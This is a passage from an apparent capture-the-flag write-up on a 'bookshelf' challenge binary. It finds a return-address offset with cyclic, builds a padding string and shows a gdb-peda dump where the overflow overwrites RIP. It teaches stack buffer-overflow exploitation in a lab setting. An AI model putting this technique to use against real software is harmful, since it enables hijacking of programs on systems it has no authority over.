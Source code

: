 ```console
$ cyclic -l maaanaaa
48
$ 
```

Ok, so the offset for RBP is 48, hence the offset for RIP must be 48 + 8 = 56.

Let's attempt a buffer overflow and redirect code execution to 0x0a4242424242:

```python
>>> 'A' * 56 + 'B' * 5
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB'
>>> 
```

```
[----------------------------------registers-----------------------------------]
RAX: 0xc ('\x0c')
RBX: 0x7fffffffe6f8 --> 0x7fffffffea0b ("/home/vulnx/CTFs/Patriot/bookshelf/bookshelf")
RCX: 0x7ffff7d00aa4 (<write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x4052a0 ("Book saved!\nmin so I trust that you will be responsible with writing this very special book...\n")
RDI: 0x7ffff7e3c710 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe5b0 ("(AB): ", 'A' <repeats 37 times>, "3A")
RIP: 0xa4242424242 ('BBBBB\n')
R8 : 0x4056ee --> 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe708 --> 0x7fffffffea38 ("SHELL=/bin/zsh")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
R15: 0x403df8 --> 0x4011b0 (<__do_global_dtors_aux>:    endbr64)
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xa4242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe5b0 ("(AB): ", 'A' <repeats 37 times>, "3A")
0008| 0x7fffffffe5b8 ('A' <repeats 35 times>, "3A")
0016| 0x7fffffffe5c0 ('A' <repeats 27 times>, "3A")
0024| 0x7fffffffe5c8 ('A' <repeats 19 times>, "3A")
0032| 0x7fffffffe5d0 ('A' <repeats 11 times>, "3A")
0040| 0x7fffffffe5d8 --> 0x4133414141 ('AAA3A')
0048| 0x7fffffffe5e0 --> 0x1 
0056| 0x7fffffffe5e8 --> 0x7ffff7c23cd0 (mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000a4242424242 in ?? ()
gdb-peda$ 
```
